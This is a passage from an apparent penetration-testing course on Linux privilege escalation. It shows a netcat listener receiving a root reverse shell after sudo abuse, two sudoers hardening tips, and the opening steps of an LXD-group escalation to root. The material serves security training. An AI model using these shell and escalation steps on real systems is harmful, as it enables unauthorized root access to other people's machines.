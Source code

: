 We receive a root shell almost instantly.

Sudo Rights Abuse

```shell-session
root@htb[/htb]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

<table><thead><tr><th width="81"></th><th></th></tr></thead><tbody><tr><td>1.</td><td>Always specify the absolute path to any binaries listed in the <code>sudoers</code> file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the <code>sudoers</code> entry specifies <code>cat</code> instead of <code>/bin/cat</code> this could likely be abused).</td></tr><tr><td>2.</td><td>Grant <code>sudo</code> rights sparingly and based on the principle of least privilege. Does the user need full <code>sudo</code> rights? Can they still perform their job with one or two entries in the <code>sudoers</code> file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.</td></tr></tbody></table>

## Privileged Groups

***

### LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.

Privileged Groups

```shell-session
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

Unzip the Alpine image.

Privileged Groups

```shell-session
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```
